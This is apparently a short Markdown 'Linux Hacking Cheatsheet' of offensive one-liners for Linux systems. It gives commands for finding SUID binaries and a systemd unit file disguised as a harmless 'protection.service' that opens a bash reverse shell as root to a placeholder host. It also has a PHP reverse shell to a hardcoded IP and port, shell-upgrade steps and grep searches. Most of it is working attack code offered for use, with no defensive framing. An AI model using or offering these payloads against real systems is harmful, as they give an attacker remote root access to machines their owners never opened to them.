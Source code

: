 # Linux Hacking Cheatsheet

## Find SUID bits
`find / -perm -u=s -type f 2>/dev/null`
`find / -user root -perm -4000 -exec ls -ldb {} \;`

## Priv Esc systemctl with user access
_Create protection.service file in writable directory_
```
[Unit]
Discription=Does very important stuff mmmkay

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

## Escaping no tty shell 
`/usr/bin/script -qc /bin/bash /dev/null`

_try ctrl + z_

`stty raw -echo`

`fg`

`export TERM=xterm #autocomplete`

## Find human readable strings in binary
`strings /usr/bin/menu`

## PHP reverse shell
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/172.30.10.210/443 0>&1'");
```

## Grep IPs out of file
`grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file.txt`

## Search for keyword
`grep -ri "word" /`

## Edit Wifi Connections
`nmtui`

_or_

`nmcli`
